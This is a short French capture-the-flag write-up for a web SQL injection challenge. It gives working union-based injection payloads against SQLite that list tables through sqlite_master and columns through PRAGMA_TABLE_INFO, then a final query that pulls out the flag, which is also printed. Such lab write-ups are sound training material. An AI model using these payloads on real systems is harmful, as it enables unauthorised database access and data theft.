 # SQL injection 7

> web

Author: [Alexandre-Xavier Labonté-Lamoureux (AXDOOMER)](https://github.com/axdoomer)

Ce sptième défi d'injection SQL indentique au défi précédent, cependant vous ne connaissez pas le nom de la table ni de la colonne!

Bonne chance.

## Setup

Requirements:
- BurpSuite

# Writeup

Nom de la table:
`" union select 1,2,name from sqlite_master--`

Résultat: Ja93MjakS

Nom de la colonne:
`" union select 1,2,name from PRAGMA_TABLE_INFO("Ja93MjakS")--`

Résultat: `Dab93JkA`

Requête finale: `" union select 1,2,Dab93JkA from Ja93MjakS--`

Résultat: `FLAG-7de1baec41fa6c0969290f2f2e8eddcfOkThisWasEasy`
